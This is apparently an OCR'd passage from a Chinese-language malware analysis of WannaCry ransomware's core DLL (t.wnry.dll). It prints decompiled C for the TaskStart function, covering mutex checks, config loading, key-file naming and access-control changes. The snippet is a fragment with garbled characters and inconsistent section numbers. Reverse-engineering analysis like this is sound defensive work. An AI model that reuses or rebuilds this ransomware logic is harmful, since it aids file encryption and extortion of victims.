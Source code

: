 ## 5.5 加载病毒核心操作

在这部分所涉及的函数的操作都只有一个目的，即利用dll文件中的导出函数，下面我们分步进行分析

### 5.3.1 GetApis 获取必要的API函数 

# 6 t.wnry.dll 病毒核心部分分析 

## 6.1 主体逻辑

t.wnry.dll
作为病毒的核心部分，包括了病毒所有的危害操作，包括加密解密文件，勒索用户等有害操作，下面我将为大家一步步的进行分析：

### 6.1.1 TaskStart 病毒的逻辑主体函数 

```c
int __stdcall TaskStart(HMODULE hModule, int a2) {

if ( a2 || RunSingle() )                      // 互斥体防双开  

return 0;  

Filename = word_1000D918;                     // 初始化缓冲区  

memset(&v12, 0, 0x204u);  

v13 = 0;  

GetModuleFileNameW(hModule, &Filename, 0x103u);// 获取当前进程的完整路径  

if ( wcsrchr(&Filename, '') )  *wcsrchr(&Filename, '') = 0;              // 获取到字符串->.wcry.exe   

SetCurrentDirectoryW(&Filename);  

if ( !ReadFileToMem(&c_wnryBase, 1) )         // 读取c.wnry到内存  

return 0;  

StartIsSuccess = GetUsersidAndCmp();       // 获取当前用户的SID并与系统的SID作比较  

if ( !GetApis() )                             // 获取必要的API函数地址  

return 0;  

sprintf(FileName_0, a08xRes, 0);              // Dest=00000000.res  

sprintf(FileName, a08xPky, 0);                // FileName=00000000.pky  

sprintf(buff, a08xEky, 0);                    // buff=00000000.eky  

if ( SetAccessControl(0) || sub_10004500(0) ) 

// 1.设置访问控制属性 2.判断是否存在00000000.pky这个文件 由于不存在 直接return  

{  

hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)StartExeAndSetReg,0, 0, 0);

// 条件不成立 跳过这个if分支 隐藏分支待分析  

WaitForSingleObject(hThread, 0xFFFFFFFF);  

```